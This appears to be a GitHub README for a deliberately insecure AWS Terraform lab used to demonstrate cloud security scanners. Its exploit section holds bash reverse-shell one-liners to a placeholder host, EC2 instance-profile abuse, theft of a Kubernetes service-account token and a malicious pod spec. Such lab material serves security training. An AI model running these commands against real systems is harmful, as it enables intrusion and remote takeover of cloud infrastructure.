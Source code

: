 # Cloud Security AWS environement
This terraform project deploy EKS,EC2,S3,IAM and VPC without security best practices. This environement can be used to show the importance of cloud security posture management and cloud worload protection solutions. Do not use this project on a production environement

# Topology
![Screenshot](topology.PNG)

# Requirement
- AWS CLI access to the cloud account
- Kubectl installed
- Terraform installed

# Environment
The terraform project deploy the following resources
- The network infrastructure: VPC, subnets, IGW, route tables, security groups
- IAM roles and Policies
- S3 bucket publicaly accessible
- MongoDB installed on an EC2 instance. During the boot, we enable mongodb authentication, take a backup snapshot and store it on the S3 bucket. The ec2 instance has an instance profile which allow full access to aws ec2.
- EKS cluster with Node Group
- Wordrpress and Myql Pods. Wordress is exposed to internet via Kubernetes services with type loadbalancer. Pods has cluster admin rights.
- Open source vulnerability scanners. Kube-bench and kube-hunter

# Installation
The order is important
- Download the terraform project into a local machine
```sh
git clone https://github.com/imsed/cloud-security-aws-environement
cd cloud-security-aws-environement
```
- Deploy the infra module 
```sh
cd infra
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```
- Deploy the mongodb database on an ec2 instance
```sh
cd compute
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```
- Deploy EKS
```sh
cd eks
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```
- Deploy kubernetes pods
```sh
cd kubernetes
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```

- Deploy scanner jobs
```sh
cd scanners
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```
# scanners
- You can scan the terraform project using IaC code security scanner like checkov.
```sh
cd ../cloud-security-aws-environement
checkov --directory cloud-security-aws-environement
```
- kube-bench (CIS benchmark). You can view the result of the scan 
```sh
kubectl logs kube-bench-xxx
```
- kube-hunter. You can view the result of the scan 
```sh
kubectl logs kube-hunter-xxx
```
# Exploit misconfiguration

- expoloit the ec2 instance profile from the mongodb ec2 instance
```sh
ubuntu@ip-172-31-13-230:~$ aws ec2 describe-instances

You can create a new ec2 with reverse shell to a controlled machine with public IP a.b.c.d and listens on port 27017 or any other ports(nc -lv 27017)

ubuntu@ip-172-31-13-230:~$ more reverse-shell.sh
#!/bin/bash
bash -i >& /dev/tcp/a.b.c.d/27017 0>&1

ubuntu@ip-172-31-13-230:~$ aws ec2 run-instances --image-id ami-05a8c865b4de3b127 --instance-type t2.micro --user-data file://reverse-shell.sh --security-group-ids <security group id> --subnet-id <subent id> --region <aws region> 
```
- mongodb backups accessible from internet. You can install mongodb in your machine, dowbload the backup and then restore it
```sh
wget <url of the mongodb backup file from s3>
tar -xf mongodb-xxxx.tar
mongorestore mongodb-xxxx
```
- Permissive RBAC permissions. From the wordpress pod you can excute curl command agains the EKS cluster.
```sh
aws eks update-kubeconfig --region <aws region> --name  "name of the eks cluster you deployed"
kubectl exec -it wordrepss... -- bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
##List all pods running on EKS
curl -s -k -m 3 -H "Authorization: Bearer $TOKEN" https://${KUBERNETES_SERVICE_HOST}/api/v1/namespaces/default/pods/
##create a new pod with a reverse shell code to a controlled machine with public IP a.b.c.d and listens on port 27017 or any other ports(nc -lv 27017)
curl -s -k -m 3 -H "Authorization: Bearer $TOKEN" https://${KUBERNETES_SERVICE_HOST}/api/v1/namespaces/default/pods \
  -X POST \
  -H 'Content-Type: application/yaml' \
  -d '---
  apiVersion: v1
  kind: Pod
  metadata:
    labels:
      run: mongoclient
    name: mongoclient
  spec:
    containers:
    - image: mongo
      name: mongoclient
      command: ["/bin/bash"]
      args: ["-c","bash -i >& /dev/tcp/a.b.c.d/27017 0>&1"]
'


```
# Destroy environement

```sh
cd cloud-security-aws-environement
cd scanners
terraform destroy
cd kubernetes
terraform destroy
cd eks
terraform destroy
cd compute
terraform destroy
cd infra
terraform destroy
```
